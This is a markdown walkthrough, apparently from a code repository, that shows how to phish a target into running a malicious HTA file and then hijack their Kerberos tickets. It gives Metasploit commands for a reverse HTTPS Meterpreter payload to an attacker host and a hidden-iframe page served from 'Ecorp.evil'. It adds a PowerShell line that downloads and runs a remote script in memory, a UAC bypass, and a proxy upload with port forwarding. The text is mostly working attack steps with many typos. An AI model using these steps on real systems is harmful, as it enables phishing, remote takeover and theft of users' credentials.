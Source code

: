 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The note describes a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.  *We are looking for **intranet** locations that would include **Kerberos authentication**.*
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicious HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output *format* but in `msf5>` it is `-f`

The `-f` was for output *filename* but in `msf5>` it is `-o`


## 2. HTA File is Executed
**[+] Simple HTML page** to serve the HTA file just created.  Name it whatever but for here it will be refered to as `index.html`.

*Auto Execute* will only take place in IE and Edge browsers.

```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```

1. Serve `index.html` via any means, but the below works just fine.  
```python
python -m SimpleHTTPServer 8080
```
2. Send the victim a link or some phish.
3. Victim goes to `http://Ecorp.evil/index.html` cause they aren't paying attention to the domain name.
4. When `index.html` loads IF browser is IE or Edge it will execute the `patch.hta` file, and if everthing was set up properly, connect back to the `msf` session.  Check `jobs` and `sessions` to see if it worked.
5. [maybe] The victim may need to allow the file to execute.  But why not? They cliked on a **`Ecorp.evil`** link, right?


## 3. Meterpreter Session

Now you should have a meterperter session.  If not, what did you do wrong? Seriously.... I laid everything out for you.

Interact with the session: `sessions -i 1`
Start a Shell: `merterpreeter > shell`


## 4. Malicous Code Injection

### 4.a Get browser history

Github location: [Get-BrowserData.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Get-BrowserData.ps1)

To enumerate browser history & bookmarks, inject `Get-BrowserData` into the victim's memory.

Execute the following in the `shell` session started in #3 above.

```powershell
C:\Users\FrankCastle\> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1'); Get-BrowserData | Format-List"
```
> Check the `Data` feild and look for intranet locations.  They usually require kerberos authentication.

### 4.b Inject gssapi-proxy

Github location: [gssapi-proxy](https://github.com/mikkolehtisalo/gssapi-proxy)

1. Elevate privilages
```bash
msf exploit(handler) > use exploit/windows/local/bypassuac_eventvwr
msf exploit(bypassuac_eventvwr)> set payload windows/mdterpreter/reverse_https
msf exploit(bypassuac_eventvwr)> set LHOST [evil external IP]
msf exploit(bypassuac_eventvwr)> set LPORT 4443 #Use different port than setup for the session.
msf exploit(bypassuac_eventvwr)> set stagerverifysslcert true
msf exploit(bypassuac_eventvwr)> set HANDLERSSLCERT /location/to/pem.pem
msf exploit(bypassuac_eventvwr)> set session 1
msf exploit(bypassuac_eventvwr)> run
```

**NOTE** Use different port than setup for the session.

Now you should be in a `meterpreter` session.  Time to upload **gssapi-proxy**.

```bash
meterpreter> upload /path/to/gssapi-proxy /windows/system/gassapi-proxy.exe
meterpreter> portfwd add -r victim.ip -l 4444 -p 8080
meterpreter> portfwd list
```

Point your attacking browser to the proxy you just setup.

Activate **gssapi-proxy**

```bash
meterpreter> shell

c:\Windows\system32>gssapi-proxy.exe

CRTL+C and drop out of the session [y]???

```

The user's active kerberos tickets is now hijacked and lets the attacker browse to the identified intranet locations.